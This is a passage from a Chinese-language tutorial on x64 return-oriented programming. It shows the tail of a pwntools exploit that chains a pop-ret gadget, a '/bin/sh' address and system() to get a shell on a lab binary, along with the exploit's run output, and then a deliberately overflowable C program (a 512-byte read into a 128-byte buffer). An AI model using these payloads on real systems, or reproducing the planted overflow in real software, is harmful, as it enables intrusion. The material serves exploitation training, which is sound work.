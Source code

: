 ```
pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```

运行结果如下：

```
#!bash
$ python exp6.py 
[+] Started program './level4'
binsh_addr_offset = 0x134d41
pop_ret_offset = -0x22d1e

##########receiving system addr##########

system_addr = 0x7f6f754d8730
binsh_addr = 0x7f6f7560d471
pop_ret_addr = 0x7f6f754b5a12

##########sending payload##########

[*] Switching to interactive mode
$ whoami
mzheng
```

# 0x04 通用gadgets

------

因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。

为了方便大家学习x64下的ROP，level3和level4的程序都留了一些辅助函数在程序中，这次我们将这些辅助函数去掉再来挑战一下。目标程序level5.c如下：

```
#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
